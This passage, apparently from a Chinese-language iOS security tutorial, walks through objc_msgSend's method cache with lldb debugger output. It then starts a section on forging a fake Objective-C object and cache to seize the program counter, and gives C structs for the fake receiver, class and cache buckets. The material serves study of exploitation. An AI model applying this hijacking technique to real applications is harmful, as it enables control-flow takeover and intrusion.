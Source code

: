 ```
    frame #0: 0x3a513622 libobjc.A.dylib`objc_msgSend + 2
libobjc.A.dylib`objc_msgSend:
->  0x3a513622 <+2>:  ldr.w  r9, [r0]
    0x3a513626 <+6>:  ldrh.w r12, [r9, #0xc]
    0x3a51362a <+10>: ldr.w  r9, [r9, #0x8]
    0x3a51362e <+14>: and.w  r12, r12, r1
```
&emsp;&emsp;0x3a51362a <+10>: ldr.w  r9, [r9, #0x8] 执行完后，$r9保存了缓存地址的数组，可以在数组中找到缓存的say和init函数。
```
(lldb) x/10 $r9
0x16638ac0: 0x000a3fbf 0x000a3f55 0x00000000 0x00000000
0x16638ad0: 0x00000000 0x00000000 0x32ad9b27 0x3a519ac5
0x16638ae0: 0x00000001 0x16638ab8
(lldb) x/s 0x000a3fbf
0x000a3fbf: "say:"
(lldb) x/s 0x32ad9b27
0x32ad9b27: "init"
(lldb) 
```
&emsp;&emsp;前一个数据是selector的地址，后一个数据就是selector对应的函数地址，如say()函数：
```
(lldb) di -s 0x000a3f55 -c 20
hello`-[Talker say:]:
    0xa3f55 <+1>:  ldr    r5, [r6, #0x78]
    0xa3f57 <+3>:  strh   r6, [r0, #0x1a]
    0xa3f59 <+5>:  lsls   r0, r6
    0xa3f5b <+7>:  bhs    0xa3f43                   ; main + 211 at hello.m:11
    0xa3f5d <+9>:  stm    r0!, {r0, r1}
    0xa3f5f <+11>: lsls   r2, r6, #0x3
    0xa3f61 <+13>: ldrb   r3, [r0, #0xc]
    0xa3f63 <+15>: lsls   r4, r0, #0x9
    0xa3f65 <+17>: lsls   r0, r2, #0x6
    0xa3f67 <+19>: lsls   r1, r2, #0x2
    0xa3f69 <+21>: lsls   r2, r2, #0x2
    0xa3f6b <+23>: adds   r1, r3, r2
    0xa3f6d <+25>: lsls   r6, r0, #0x1
    0xa3f6f <+27>: add    r8, lr
    0xa3f71 <+29>: lsls   r0, r5, #0xf
    0xa3f73 <+31>: strh   r0, [r6, #0x4]
    0xa3f75 <+33>: lsls   r5, r7, #0x2
    0xa3f77:       stclhs p4, c0, [r0]
```
### 0x04 伪造ObjC对象控制PC
&emsp;&emsp;如果可以伪造一个ObjC对象，然后构造一个假的cache的话，就有机会控制PC指针了。首先需要找到selector在内存中的地址，这个问题可以使用NSSelectorFromString()这个系统自带的API来解决，比如我们想知道”release”这个selector的地址，就可以使用NSSelectorFromString(@"release")来获取。

&emsp;&emsp;随后要构建一个假的receiver，假的receiver里有一个指向假的objc_class的指针，假的objc_class里又保存了假的cache_buckets的指针和mask。假的cache_buckets的指针最终指向我们将要伪造的selector和selector函数的地址：
```
struct fake_receiver_t
{
    uint32_t fake_objc_class_ptr;
}fake_receiver;
 
struct fake_objc_class_t {
    char pad[0x8];
    void* cache_buckets_ptr;
    uint32_t cache_bucket_mask;
} fake_objc_class;
 
struct fake_cache_bucket_t {
    void* cached_sel;
    void* cached_function;
} fake_cache_bucket;
```